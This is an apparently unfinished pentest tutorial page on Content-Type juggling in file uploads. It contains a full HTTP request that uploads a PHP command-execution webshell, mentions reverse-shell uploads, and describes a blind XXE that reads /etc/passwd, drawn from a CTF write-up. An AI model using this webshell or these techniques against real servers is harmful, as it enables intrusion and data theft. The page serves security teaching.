


# 🛠️ Content-type juggling

## Theory

**Content-type juggling** exploits the lack of checking on the `Content-Type` header when submitting a HTTP request.

**It is often used to perform [unrestricted-file-upload](unrestricted-file-upload.md)**.



The Content-Type header is used to indicate the MIME type of the resource.

- In requests, (such as POST or PUT), the client tells the server what type of data was actually sent.

- In responses, a Content-Type header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.




### Example

Let's take this HTML form and the POST request following the submit of this form. 

```HTML
<form action="/" method="post" enctype="multipart/form-data">
  <input type="text" name="description" value="some text" />
  <input type="file" name="myFile" />
  <button type="submit">Submit</button>
</form>
```

```
POST /foo HTTP/1.1
Content-Length: 68137
Content-Type: multipart/form-data; boundary=---------------------------974767299852498929531610575

-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="description"

some text
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The first `Content-Type` header use the `enctype`. The second one tells the server what type of data was actually sent, here, a file.

### Vulnerability

It is possible to intercept the request above and perform a `Content-Type juggling`. To do this, switch the Content-Type Header to whatever you want.
In the example below, we managed to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```
POST /foo HTTP/1.1
Content-Length: 68137
Content-Type: multipart/form-data; boundary=---------------------------974767299852498929531610575

-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="description"

some text
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php

 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```

## Issue

If the XCTO (X-Content-Type-Options) security header is present, it will be difficult to perform the Content-Type juggling. As you can read in [mime-sniffing](../../web/config/http-headers/mime-sniffing.md). XCTO security header can be used to indicate that the MIME types advertised in the Content-Type headers should be followed and not be changed by the browser depending on the page's content. Websites that implement that security header with the nosniff directive must also include a valid Content-Type header in their responses.

## Practice

In order to identify if the target is vulnerable to Content-Type juggling, testers need to answer the following questions:&#x20;
- Is there a post request with value(s) and Content-Type header ?
- Is there no presence of the X-Content-Type-Options security header ?
- Can we edit the Content-Type header and still submit the post request successfully ?

If you answered yes to all the questions, then you should be able to perform Content-Type juggling. Don't forget that, most of the time, Content-Type juggling is a way to upload unattended payload (reverse-shell when the form is used to submit pictures).

Here is the list of all the Content-Type possibilities : 

The most common types are:

INSERT SCHEMA TYPES

### Example

For this example, we're going to use the writeup from @Nicholaz99 explaining one of the GoogleCTF challenge from 2019.
The first URL lead to this page, that is a form that we can submit.



When intercepting the request, we can see that the search API will post a JSON with key “message” and a value of the city that you pick in Braille Dots (Zurich =  135601360123502401401250). 



Now, we can start answering the practice questions that we mentioned above. In this case, the two first can be answered by "yes". For the third, we have to try to perform a Content-Type juggling. We are going to change the Content-Type from `application/json` to `application/xml`. Doing so, we can try to execute a XXE payload.


As you can see above, it works. By combining Content-Type juggling with another attack, it's possible to extract informations.

The last screenshot shows how to perform a blind XXE. You can read more about it in  [xxe-injection](xxe-injection.md). Doing so, we are able to extract the "/etc/passwd" file on the server.


## Ressources






